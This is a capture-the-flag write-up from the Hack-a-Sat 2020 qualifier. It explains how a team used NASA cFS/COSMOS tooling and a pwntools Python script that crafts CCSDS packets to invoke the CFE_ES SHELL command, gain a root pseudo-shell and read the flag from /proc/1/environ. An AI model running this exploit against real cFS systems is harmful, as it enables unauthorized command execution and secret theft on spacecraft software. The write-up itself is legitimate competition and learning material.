



# SPACE SECURITY CHALLENGE 2020 HACK-A-SAT: That's not on my calendar

* **Category:** Payload Modules
* **Points:** 80
* **Solves:** 52
* **Description:**

> Time for a really gentle introduction to cFS and Cosmos, hopefully you can schedule time to learn it!
>
> Build instructions:
>
> $ ./setup.sh $ source ~/.bashrc $ rm Gemfile.lock $ bundle install
>
> Hint: You will need to enable telemetry locally on the satellite, the udp forwarder will provide it to you as TCP from there
>
> [cosmos.tar.gz](https://static.2020.hackasat.com/186477467f949fb570fd84b176df5ce25b1aa64c/cosmos.tar.gz)
> [calendar_hint1.zip](https://static.2020.hackasat.com/c36b4504716f3bc83a99971c169b13efcdff800d/calendar_hint1.zip)
>
> Connect to the challenge on calendar.satellitesabove.me:5061

## Write-up

_Write-up by Solar Wine team_


The tarball contains *an example COSMOS Mission Setup* (according to its `README.md`).
This is a Ruby-Qt application that is able to connect to a satellite and communicate with it.

It includes documentation that gives more background about what this challenge is about, for example in `cosmos/cfs_kit/docs/cfe_users_guide/cfebackground.html`:

> The Core Flight Executive (cFE) is an application development and run-time environment. The cFE provides a set of core services including Software Bus (messaging), Time, Event (Alerts), Executive (startup and runtime), and Table services.
> [...]
> The cFE is one of the components of the Core Flight System (CFS), a platform and project independent reusable software framework and set of reusable software applications.

In order to quickly learn about this software ecosystem, we read https://cfs.gsfc.nasa.gov/cFS-OviewBGSlideDeck-ExportControl-Final.pdf too.

Then, we connect to the server and gets many messages:

```
Starting up CFS UDP Forwarding Service on tcp:18.189.17.61:9266
Booting...
Checking File System...
CFE_PSP: Clearing out CFE CDS Shared memory segment.
CFE_PSP: Clearing out CFE Reset Shared memory segment.
CFE_PSP: Clearing out CFE User Reserved Shared memory segment.
2030-143-05:37:25.59238 POWER ON RESET due to Power Cycle (Power Cycle).
2030-143-05:37:25.59240 ES Startup: CFE_ES_Main in EARLY_INIT state
CFE_PSP: CFE_PSP_AttachExceptions Called
2030-143-05:37:25.59242 ES Startup: CFE_ES_Main entering CORE_STARTUP state
2030-143-05:37:25.59242 ES Startup: Starting Object Creation calls.
2030-143-05:37:25.59243 ES Startup: Calling CFE_ES_CDSEarlyInit
2030-143-05:37:25.59250 ES Startup: Calling CFE_EVS_EarlyInit
2030-143-05:37:25.59253 Event Log cleared following power-on reset
2030-143-05:37:25.59254 ES Startup: Calling CFE_SB_EarlyInit
2030-143-05:37:25.59259 SB internal message format: CCSDS Space Packet Protocol version 1
2030-143-05:37:25.59261 ES Startup: Calling CFE_TIME_EarlyInit
1980-012-14:03:20.00000 ES Startup: Calling CFE_TBL_EarlyInit
1980-012-14:03:20.00009 ES Startup: Calling CFE_FS_EarlyInit
1980-012-14:03:20.00017 ES Startup: Core App: CFE_EVS created. App ID: 0
EVS Port1 42/1/CFE_EVS 1: cFE EVS Initialized. cFE Version 6.7.1.0
EVS Port1 42/1/CFE_EVS 14: No subscribers for MsgId 0x808,sender CFE_EVS
1980-012-14:03:20.05047 ES Startup: Core App: CFE_SB created. App ID: 1
1980-012-14:03:20.05054 SB:Registered 4 events for filtering
EVS Port1 42/1/CFE_SB 1: cFE SB Initialized
EVS Port1 42/1/CFE_SB 14: No subscribers for MsgId 0x808,sender CFE_SB
1980-012-14:03:20.10076 ES Startup: Core App: CFE_ES created. App ID: 2
EVS Port1 42/1/CFE_ES 1: cFE ES Initialized
EVS Port1 42/1/CFE_SB 14: No subscribers for MsgId 0x808,sender CFE_ES
EVS Port1 42/1/CFE_ES 2: Versions:cFE 6.7.1.0, OSAL 5.0.1.0, PSP 1.4.0.0, chksm 918
EVS Port1 42/1/CFE_SB 14: No subscribers for MsgId 0x808,sender CFE_ES
EVS Port1 42/1/CFE_ES 91: Mission osk
EVS Port1 42/1/CFE_SB 14: No subscribers for MsgId 0x808,sender CFE_ES
EVS Port1 42/1/CFE_ES 92: Build 202005170032 root@c32236002289
1980-012-14:03:20.15097 ES Startup: Core App: CFE_TIME created. App ID: 3
EVS Port1 42/1/CFE_TIME 1: cFE TIME Initialized
1980-012-14:03:20.20117 ES Startup: Core App: CFE_TBL created. App ID: 4
EVS Port1 42/1/CFE_TBL 1: cFE TBL Initialized.  cFE Version 6.7.1.0
1980-012-14:03:20.25126 ES Startup: Finished ES CreateObject table entries.
1980-012-14:03:20.25128 ES Startup: CFE_ES_Main entering CORE_READY state
1980-012-14:03:20.25133 ES Startup: Opened ES App Startup file: /cf/cfe_es_startup.scr
1980-012-14:03:20.25181 ES Startup: Loading shared library: /cf/cfs_lib.so
CFS Lib Initialized.  Version 2.2.0.01980-012-14:03:20.25229 ES Startup: Loading shared
 library: /cf/osk_app_lib.so
1980-012-14:03:20.25275 ES Startup: Loading shared library: /cf/expat_lib.so
EXPAT Library 2.1.0 Loaded
1980-012-14:03:20.25320 ES Startup: Loading file: /cf/kit_to.so, APP: KIT_TO
1980-012-14:03:20.25334 ES Startup: KIT_TO loaded and created
1980-012-14:03:20.25388 ES Startup: Loading file: /cf/kit_ci.so, APP: KIT_CI
1980-012-14:03:20.25405 ES Startup: KIT_CI loaded and created
EVS Port1 42/1/KIT_CI 100: KIT_CI Initialized. Version 1.0.0.0
1980-012-14:03:20.25450 ES Startup: Loading file: /cf/kit_sch.so, APP: KIT_SCH
1980-012-14:03:20.25466 ES Startup: KIT_SCH loaded and created
EVS Port1 42/1/KIT_SCH 15: Sucessfully Replaced table 0 using file /cf/kit_sch_msg_tbl.
json
EVS Port1 42/1/KIT_TO 135: Removed 0 table packet entries
EVS Port1 42/1/KIT_TO 122: Loaded new table with 61 packets
EVS Port1 42/1/KIT_TO 15: Sucessfully Replaced table 0 using file /cf/kit_to_pkt_tbl.js
on
EVS Port1 42/1/KIT_TO 100: KIT_TO Initialized. Version 1.0.0.0
EVS Port1 42/1/KIT_SCH 15: Sucessfully Replaced table 1 using file /cf/kit_sch_sch_tbl.
json
EVS Port1 42/1/KIT_SCH 101: KIT_SCH Initialized. Version 1.0.0.0
1980-012-14:03:20.35482 ES Startup: CFE_ES_Main entering APPS_INIT state
1980-012-14:03:20.35484 ES Startup: CFE_ES_Main entering OPERATIONAL state
EVS Port1 42/1/CFE_TIME 21: Stop FLYWHEEL
EVS Port1 42/1/KIT_SCH 136: Multiple slots processed: slot = 0, count = 2
```

The first line gives the remote address of a "CFS UDP Forwarding Service".

Then, there are several acronyms that became clearer after reading the documentation:

* "cFE 6.7.1.0, OSAL 5.0.1.0, PSP 1.4.0.0, chksm 918": core Flight Executive, Operating System Abstraction Layer, Platform Support Package
* "SB internal message format: CCSDS Space Packet Protocol version 1": CCSDS = Consultative Committee for Space Data Systems
* "Opened ES App", "ES Startup": ES = Executive Service

We can try making COSMOS connect to it. But first, we need a working environment.

### Installing COSMOS

COSMOS uses many dependencies from an Ubuntu system. A simple way of getting a light Ubuntu environment consists in using a container.

After some iterations, we wrote this `Dockerfile`:
```
FROM ubuntu:18.04

RUN \
    export DEBIAN_FRONTEND=noninteractive && \
    apt-get update -yy && \
    apt-get install -y build-essential curl wget dnsutils net-tools netcat socat tcpdump
COPY cosmos /cosmos/
WORKDIR /cosmos

# Automatically answer:
#    Install dependencies using Root/Sudo/No (Rsn):  => R
#    Do you want to continue? [Y/n]  => Y
#    Install ruby using rbenv (Yn):  => Y
#    Install and run COSMOS demo (Yn): => N
RUN cd /cosmos && export DEBIAN_FRONTEND=noninteractive && \
    printf 'r\ny\ny\nn\n' | ./setup.sh

# For Gtk with Qt4
ENV QT_STYLE_OVERRIDE=gtk2 QT_X11_NO_MITSHM=1
RUN DEBIAN_FRONTEND=noninteractive apt-get install -y gedit qt4-qtconfig gtk2-engines-qtcurve libxext-dev libxrender-dev libxtst-dev

CMD ["/bin/bash"]
```

Then we ran these commands to build and launch it using Podman:
```sh
podman build -t thatsnotmycalendar .
xhost +local:root
podman run --rm -ti -v $(pwd):/host --net=host -e DISPLAY \
    -v /tmp/.X11-unix:/tmp/.X11-unix:rw \
    -v ~/.Xauthority:/root/.Xauthority:Z thatsnotmycalendar
```

Once inside the container:
```sh
cd /cosmos
rm Gemfile.lock
bundle install
bundle update --bundler
bundle install
ruby Launcher
```

Using `bundle install` twice is needed in order to work around an issue about `bundler` being updated to version 2.

These commands produce this window:



We of course clicked on the big "HAS Quals" button.

This spawned the tools that are configured in `cosmos/config/tools/launcher/launcher.txt`:
```
MULTITOOL_START "HAS Quals" HAS_logo.png
  TOOL "LAUNCH CmdTlmServer -x 1500 -y 1000 -c cmd_tlm_server.txt"
  #TOOL "LAUNCH CmdTlmServer --minimized -c cmd_tlm_server.txt"
  DELAY 2 
  TOOL "LAUNCH TlmViewer -x 0 -y 1000"
```

Which referenced `./cosmos/config/tools/cmd_tlm_server/cmd_tlm_server.txt` containing the configuration to connect to the remote service:

```
TITLE 'cFS Command and Telemetry Server'

# Can't map same target to two interfaces. Current strategy is to always connect locally
# and allow a switch to a PiSat interface. Another option may be to start both interfaces
# and then remap the targets.
 INTERFACE LOCAL_CFS_INT tcpip_client_interface.rb 127.0.0.1 54321 54321 10 nil
  PROTOCOL WRITE ChecksumProtocol

  TARGET SYSTEM
  
  TARGET CFE_ES
  TARGET CFE_EVS
  TARGET CFE_SB
  TARGET CFE_TBL
  TARGET CFE_TIME
  TARGET MM
  TARGET KIT_CI
  TARGET KIT_SCH
  TARGET KIT_TO
  
  
INTERFACE COSMOSINT cmd_tlm_server_interface.rb
  TARGET COSMOS
  DISABLE_DISCONNECT
```

So we needed to link `127.0.0.1:54321` to the endpoint that is given by the challenge service ("`CFS UDP Forwarding Service on tcp:18.189.17.61:9266`"):
```sh
socat -d -d TCP-L:54321,fork,reuseaddr TCP:18.189.17.61:9266
```

It worked :)

Cosmos can be used to send messages and receive telemetry data.

Among the available commands, one named `SHELL` in target `CFE_ES` got our interest.
We crafted a request to run `id` (encoded `[105, 100]` in the "Command Sender" and got an error in the shell that was connected to the challenge service.



The logs are very encouraging:
```
1980-012-14:03:52.11243 OS_ShellOutputToFile call failed from CFE_ES_ShellOutputCommand
EVS Port1 42/1/CFE_ES 25: Failed to invoke shell command: 'id', RC = 0xC400000C
```

`CFE_ES_ShellOutputCommand` is a function that passes commands to the underlying OS using `OS_ShellOutputToFile`.
Its source code is available at <https://github.com/nasa/cFE/blob/95f34d25cb2843b8ba9db6338bb0b53cb3e38f92/fsw/cfe-core/src/es/cfe_es_shell.c#L57>.

The error code, `0xC400000C`, is defined in this GitHub project as: `#define CFE_ES_ERR_SHELL_CMD  ((int32)0xc400000c)`.

After much time, we found out that the error was due to the fact that we used `default` as output filename.
Using `/cf/cmd.tmp` fixes things :)

In order to receive the reply, the telemetry needs to be enabled. We used the command `ENABLE_TELEMETRY` for target `KIT_TO` to do this.

With this, we received the output of the shell commands as `CFE_ES_SHELL_TLM_PKT` packets.



However commands that produced long outputs were split in several packets.
We first used Wireshark to read their outputs, but we did not find the flag quickly and it was too bothersome.

### Using Python

So we wrote a Python script to run shell commands:

```python
#!/usr/bin/env python3
# Dependency: pip install pwntools
import logging
import re
import struct
from pwn import remote

logger = logging.getLogger('main')
logging.basicConfig(format='[%(levelname)-5s] %(message)s', level=logging.INFO)

conn = remote('calendar.satellitesabove.me', 5061)
line = conn.recvline()
assert line == b'Ticket please:\n'
conn.send('ticket{foxtrot83312foxtrot:GBWTWo89p8AmKvRDrftVCAdkZss33s_45jYea__j3Kg7F-eXreencPal3uFdDF7m9A}\n')
line = conn.recvline().decode()
matches = re.match(r'Starting up CFS UDP Forwarding Service on tcp:([0-9.]+):([0-9]+)', line)
assert matches, "Unexpected line %r" % line
remote_addr, remote_port = matches.groups()
remote_port = int(remote_port)

def recv_from_first_conn():
    output = []
    while conn.can_recv(timeout=.1):
        line = conn.recvline().decode('utf-8', 'replace')
        logger.info("LOG: %r", line.rstrip())
        output.append(line)
    return ''.join(output)

def recv_from_first_conn_until_keyword(kw):
    output = recv_from_first_conn()
    while kw not in output:
        output = recv_from_first_conn()

recv_from_first_conn_until_keyword('Stop FLYWHEEL')
cfs_service = remote(remote_addr, remote_port)

def send_enable_telemetry():
    """
    Send a KIT_TO ENABLE_TELEMETRY command

    Address   Data                                             Ascii
    ---------------------------------------------------------------------------
    00000000: 18 80 C0 00 00 11 07 9A 31 32 37 2E 30 2E 30 2E          127.0.0.
    00000010: 31 00 00 00 00 00 00 00                          1
    """
    payload = bytearray()
    payload += struct.pack('>HHHBB', 6272, 49152, 17, 7, 0)
    # IP Address
    payload += b'127.0.0.1\x00\x00\x00\x00\x00\x00\x00'
    assert len(payload) == 0x18
    # Adjust checksum
    cksum = 0xff
    for x in payload:
        cksum ^= x
    payload[7] = cksum
    logger.info("Send enable telemetry")
    cfs_service.send_raw(payload)
    output = recv_from_first_conn_until_keyword('Telemetry output enabled for IP 127.0.0.1')

def send_shell_command(cmd):
    """
    Send a CFE_ES SHELL command

    Address   Data                                             Ascii
    ---------------------------------------------------------------------------
    00000000: 18 06 C0 00 00 81 03 E3 66 69 6E 64 20 2F 63 68          find /ch
    00000010: 61 6C 6C 65 6E 67 65 20 2D 65 78 65 63 20 6C 73  allenge -exec ls
    00000020: 20 2D 6C 64 20 7B 7D 20 2B 00 00 00 00 00 00 00   -ld {} +
    00000030: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    00000040: 00 00 00 00 00 00 00 00 2F 63 66 2F 63 6D 64 2E          /cf/cmd.
    00000050: 74 6D 70 00 00 00 00 00 00 00 00 00 00 00 00 00  tmp
    00000060: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    00000070: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
    00000080: 00 00 00 00 00 00 00 00
    """
    # CCSDS Stream ID and sequence, Length, FuncCode, checksum
    payload = bytearray()
    payload += struct.pack('>HHHBB', 6150, 49152, 129, 3, 0)
    # Cmd
    cmd_bytes = cmd.encode()
    assert len(cmd_bytes) <= 0x40
    payload += cmd_bytes + b'\x00' * (0x40 - len(cmd_bytes))
    # output filename
    payload += b'/cf/cmd.tmp' + b'\x00' * 0x35
    assert len(payload) == 0x88
    # Adjust checksum
    cksum = 0xff
    for x in payload:
        cksum ^= x
    payload[7] = cksum
    logger.debug("Send cmd %r", cmd)
    cfs_service.send_raw(payload)
    while True:
        output = recv_from_first_conn()
        if 'Failed to invoke shell command:' in output:
            return 'FAILED'
        elif 'Invoked shell command:' in output:
            break

    # Now filter received telemetry packets
    received_output = []
    do_continue = True
    while do_continue:
        for stream_id, sequence, received_pkt in cfs_recv():
            if stream_id == 2056 and b'Invoked shell command:' in received_pkt:
                do_continue = False
                break
            if stream_id == 2063:
                received_output.append(received_pkt[5:])
    output = b''.join(received_output)
    # There is garbage in the end
    assert output.endswith(b'\n$\0'), output
    output = output[:-3].decode('utf-8', 'replace').rstrip()
    return output

def cfs_recv():
    """Receive from cFS service socket"""
    received_pkts = []
    while cfs_service.can_recv(timeout=.1):
        pkt = cfs_service.recvn(7)
        stream_id, sequence, length, seconds = struct.unpack('>HHHB', pkt)
        # logger.debug("Recv hdr: stream=%d, seq=%d [%d=%#x], seconds=%d", stream_id, sequence, length, length, seconds)
        pkt = cfs_service.recvn(length)
        # logger.debug("Recv stream=%d, seq=%d [%#x]: %r", stream_id, sequence, length, pkt)
        received_pkts.append((stream_id, sequence, pkt))
    return received_pkts


send_enable_telemetry()
while True:
    cmd = input('$ ')
    if not cmd:
        break
    output = send_shell_command(cmd.strip())
    print(output)
```

### Pseudo-shell

This allowed the sending of commands like in a real shell:
```

Some commands:
```sh
$ uname -a
Linux e52d5d08b33e 4.15.0-1065-aws #69-Ubuntu SMP Thu Mar 26 02:17:29 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/challenge
$ ls -l
total 940
-rw-r--r-- 1 root root     60 May 25 20:24 1
drwxr-xr-x 2 root root   4096 May 25 20:24 cf
-rwxr-xr-x 1 root root  13392 May 25 20:24 cfs-wrapper
-rwxr-xr-x 1 root root 931188 May 25 20:24 core-cpu1
-rwxr-xr-x 1 root root    388 May 21 16:06 startup.sh
$ ls -l cf
total 528
-rw-r--r-- 1 root root   3783 May 25 20:24 cfe_es_startup.scr
-rw-r--r-- 1 root root  16780 May 25 20:24 cfs_lib.so
-rw-r--r-- 1 root root      0 May 25 20:24 cmd.tmp
-rw-r--r-- 1 root root 278980 May 25 20:24 expat_lib.so
-rw-r--r-- 1 root root  28248 May 25 20:24 kit_ci.so
-rw-r--r-- 1 root root  59296 May 25 20:24 kit_sch.so
-rw-r--r-- 1 root root  11673 May 25 20:24 kit_sch_msg_tbl.json
-rw-r--r-- 1 root root  10756 May 25 20:24 kit_sch_sch_tbl.json
-rw-r--r-- 1 root root  45624 May 25 20:24 kit_to.so
-rw-r--r-- 1 root root  12419 May 25 20:24 kit_to_pkt_tbl.json
-rw-r--r-- 1 root root  51408 May 25 20:24 osk_app_lib.so
$ cat startup.sh
#!/bin/bash

echo "Starting up CFS UDP Forwarding Service on tcp:${SERVICE_HOST}:${SERVICE_PORT}"
echo "Booting..."
./build.sh 2&>1 > /dev/null
cp -r /src/build/exe/cpu1/* /challenge
cp /src/cfs-wrapper /challenge
cd /challenge
echo "Checking File System..."

/challenge/core-cpu1 & 
/challenge/cfs-wrapper &

while read line
do
  echo $line > /dev/null
done < "${1:-/dev/stdin}"

exit 0
$ ps -efH
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 20:26 ?        00:00:00 /bin/bash ./startup.sh
root        11     1  0 20:26 ?        00:00:00   /challenge/core-cpu1
root        32    11  0 20:29 ?        00:00:00     sh -c ps -efH
root        33    32  0 20:29 ?        00:00:00       ps -efH
root        12     1  0 20:26 ?        00:00:00   /challenge/cfs-wrapper
$ ls /src
Makefile
SUA_Open_Source_cFE 6 1_GSC-16232.pdf
apps
build
build.sh
cfe
cfe-OSS-readme.txt
cfs-wrapper
cfs-wrapper.c
classic_build
cmake.sh
docs
osal
osk_defs
psp
setvars.sh
startup.sh
tools

[...]

$ grep flag -rni /src/apps/kit_to/fsw/
/src/apps/kit_to/fsw/src/kit_to_app.c:44:static void KIT_TO_SendFlagPkt(void);
/src/apps/kit_to/fsw/src/kit_to_app.c:53:KIT_TO_FlagPkt      KitToFlagPkt;
/src/apps/kit_to/fsw/src/kit_to_app.c:212:** Function: KIT_TO_SendFlagPkt
/src/apps/kit_to/fsw/src/kit_to_app.c:215:void KIT_TO_SendFlagPkt(void)
/src/apps/kit_to/fsw/src/kit_to_app.c:217:   char *flag = getenv("FLAG");
/src/apps/kit_to/fsw/src/kit_to_app.c:219:   if (!flag) {
/src/apps/kit_to/fsw/src/kit_to_app.c:220:      flag = "{defaultdefaultdefaultdefaultde

$ cat -v /proc/1/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin^@HOSTNAME=
04f0de8e3f6f^@SEED=12198866781642613759^@FLAG=flag{foxtrot83312foxtrot:GDoy0
5inazYkSvj58td1ftg79FI6Bv-SAjz-4F_ybM63bktcvWuDeAM5SUrT05-ikA5QCxvx_KR3XYJ63
5h6e2g}^@LCM_OUTER_IP=18.189.17.61^@LCM_OUTER_PORT_BASE=18496^@SERVICE_HOST=
18.189.17.61^@SERVICE_PORT=18496^@HOME=/root^@
"""
```

The flag was in an environment variable, readable in `/proc/1/environ`.


## Conclusion

After solving the challenge, we used the access we got to download its source code (in `/src/apps/kit_to/fsw/src/kit_to_app.c`) and discovered that a much simpler solution existed: sending a command with message ID `KIT_TO_SEND_FLAG_MID = 0x1882` made the satellite reply with a telemetry packet that includes the flag.

While not the expected solution for this challenge, it was fun solving it in the way we did and more importantly, both very informative about the satellite environment and much useful for the final event :)


## Appendix

Here is the source code for the challenge ;)

This code was also published in July 2020 by the organizers of the challenge, in the [release of the source code of all challenges](https://github.com/deptofdefense/HAS-Qualifier-Challenges/blob/efa7fce5cfa583c8b1b636719c4cbd3f2a165df0/monroe/cfs/apps/kit_to/fsw/src/kit_to_app.c)

```sh
$ cat /src/apps/kit_to/fsw/src/kit_to_app.c
```
```c
/*
** Purpose: Define the OpenSat Kit Telemetry Output application. This app
**          receives telemetry packets from the software bus and uses its
**          packet table to determine whether packets should be sent over
**          a UDP socket.
**
** Notes:
**   1. This is non-flight code so an attempt has been made to balance keeping
**      it simple while making it robust. Limiting the number of configuration
**      parameters and integration items (message IDs, perf IDs, etc) was
**      also taken into consideration.
**   2. Event message filters are not used since this is for test environments.
**      This may be reconsidered if event flooding ever becomes a problem.
**   3. Performance traces are not included.
**   4. Most functions are global to assist in unit testing
**
** License:
**   Written by David McComas, licensed under the copyleft GNU
**   General Public License (GPL). 
**
** References:
**   1. OpenSatKit Object-based Application Developer's Guide.
**   2. cFS Application Developer's Guide.
**
*/

/*
** Includes
*/

#include <string.h>
#include "kit_to_app.h"
#include <sys/mman.h> 
#include <stdlib.h>
#include <stdint.h>

/*
** Local Function Prototypes
*/

static int32 InitApp(void);
static void InitDataTypePkt(void);
static void ProcessCommands(void);
static void KIT_TO_SendFlagPkt(void);
/*
** Global Data
*/

KIT_TO_Class  KitTo;

KIT_TO_HkPkt        KitToHkPkt;
KIT_TO_DataTypePkt  ToDataTypePkt;
KIT_TO_FlagPkt      KitToFlagPkt;


#define  CMDMGR_OBJ  (&(KitTo.CmdMgr))  /* Convenience macro */
#define  TBLMGR_OBJ  (&(KitTo.TblMgr))  /* Convenience macro */
#define  PKTTBL_OBJ  (&(KitTo.PktTbl))  /* Convenience macro */
#define  PKTMGR_OBJ  (&(KitTo.PktMgr))  /* Convenience macro */

/******************************************************************************
** Function: KIT_TO_AppMain
**
*/
void KIT_TO_AppMain(void)
{

   int32  Status    = CFE_SEVERITY_ERROR;
   uint32 RunStatus = CFE_ES_APP_ERROR;


   Status = CFE_ES_RegisterApp();
   CFE_EVS_Register(NULL,0,0);

   /*
   ** Perform application specific initialization
   */
   if (Status == CFE_SUCCESS) {
      
      CFE_EVS_SendEvent(KIT_TO_INIT_DEBUG_EID, KIT_TO_INIT_EVS_TYPE, "KIT_TO: About to call init\n");
      Status = InitApp();
   
   }

   /*
   ** At this point many flight apps use CFE_ES_WaitForStartupSync() to
   ** synchronize their startup timing with other apps. This is not
   ** needed.
   */

   if (Status == CFE_SUCCESS) RunStatus = CFE_ES_APP_RUN;

   /*
   ** Main process loop
   */
   
   CFE_EVS_SendEvent(KIT_TO_INIT_DEBUG_EID, KIT_TO_INIT_EVS_TYPE, "KIT_TO: About to enter loop\n");
   while (CFE_ES_RunLoop(&RunStatus))
   {

      OS_TaskDelay(KIT_TO_RUNLOOP_DELAY);

      PKTMGR_OutputTelemetry();

      ProcessCommands();

   } /* End CFE_ES_RunLoop */


   /* Write to system log in case events not working */

   CFE_ES_WriteToSysLog("KIT_TO App terminating, err = 0x%08X\n", Status);

   CFE_EVS_SendEvent(KIT_TO_EXIT_ERR_EID, CFE_EVS_CRITICAL, "KIT_TO App: terminating, err = 0x%08X", Status);

   CFE_ES_ExitApp(RunStatus);  /* Let cFE kill the task (and any child tasks) */

} /* End of KIT_TO_AppMain() */


/******************************************************************************
** Function: KIT_TO_NoOpCmd
**
*/

boolean KIT_TO_NoOpCmd(void* ObjDataPtr, const CFE_SB_MsgPtr_t MsgPtr)
{

   CFE_EVS_SendEvent (KIT_TO_NOOP_INFO_EID,
                      CFE_EVS_INFORMATION,
                      "Kit Telemetry Output (KIT_TO) version %d.%d received a no operation command",
                      KIT_TO_MAJOR_VERSION,KIT_TO_MINOR_VERSION);

   return TRUE;


} /* End KIT_TO_NoOpCmd() */


/******************************************************************************
** Function: KIT_TO_ResetAppCmd
**
*/

boolean KIT_TO_ResetAppCmd(void* ObjDataPtr, const CFE_SB_MsgPtr_t MsgPtr)
{

   CMDMGR_ResetStatus(CMDMGR_OBJ);
   TBLMGR_ResetStatus(TBLMGR_OBJ);

   PKTMGR_ResetStatus();

   return TRUE;

} /* End KIT_TO_ResetAppCmd() */


/******************************************************************************
** Function: KIT_TO_SendDataTypeTlmCmd
**
*/

boolean KIT_TO_SendDataTypeTlmCmd(void* ObjDataPtr, const CFE_SB_MsgPtr_t MsgPtr)
{

   int32 Status;

   CFE_SB_TimeStampMsg((CFE_SB_MsgPtr_t) &ToDataTypePkt);
   Status = CFE_SB_SendMsg((CFE_SB_Msg_t *)&ToDataTypePkt);

   return (Status == CFE_SUCCESS);

} /* End KIT_TO_SendDataTypeTlmCmd() */

/******************************************************************************
** Function: KIT_TO_SendHousekeepingPkt
**
*/
void KIT_TO_SendHousekeepingPkt(void)
{

   /*
   ** KIT_TO Data
   */

   KitToHkPkt.ValidCmdCnt   = KitTo.CmdMgr.ValidCmdCnt;
   KitToHkPkt.InvalidCmdCnt = KitTo.CmdMgr.InvalidCmdCnt;

   /*
   ** TBLMGR Data
   */

   KitToHkPkt.PktTblLastLoadStatus  = KitTo.PktTbl.LastLoadStatus;
   KitToHkPkt.PktTblAttrErrCnt      = KitTo.PktTbl.AttrErrCnt;

   /*
   ** PKTMGR Data
   ** - At a minimum all pktmgr variables effected by a reset must be included
   ** - Some of these may be more diagnostic but not enough to warrant a
   **   separate diagnostic. Also easier for the user not to hhave to command it.
   */

   KitToHkPkt.TlmSockId = (uint16)KitTo.PktMgr.TlmSockId;
   strncpy(KitToHkPkt.TlmDestIp, KitTo.PktMgr.TlmDestIp, PKTMGR_IP_STR_LEN);

   CFE_SB_TimeStampMsg((CFE_SB_Msg_t *) &KitToHkPkt);
   CFE_SB_SendMsg((CFE_SB_Msg_t *) &KitToHkPkt);

} /* End KIT_TO_SendHousekeepingPkt() */

/******************************************************************************
** Function: KIT_TO_SendFlagPkt
**
*/
void KIT_TO_SendFlagPkt(void)
{
   char *flag = getenv("FLAG");

   if (!flag) {
      flag = "{defaultdefaultdefaultdefaultdefaultdefaultdefaultdefaultdefault"
             "defaultdefaultdefaultdefaultdefaultdefaultdefaultdefaultdefault"
             "defaultdefaultdefaultdefaultdefault}";

   }

   memset(KitToFlagPkt.Flag,0,sizeof(KitToFlagPkt.Flag));
   strncpy(KitToFlagPkt.Flag, flag, sizeof(KitToFlagPkt.Flag));

   CFE_SB_TimeStampMsg((CFE_SB_Msg_t *) &KitToFlagPkt);
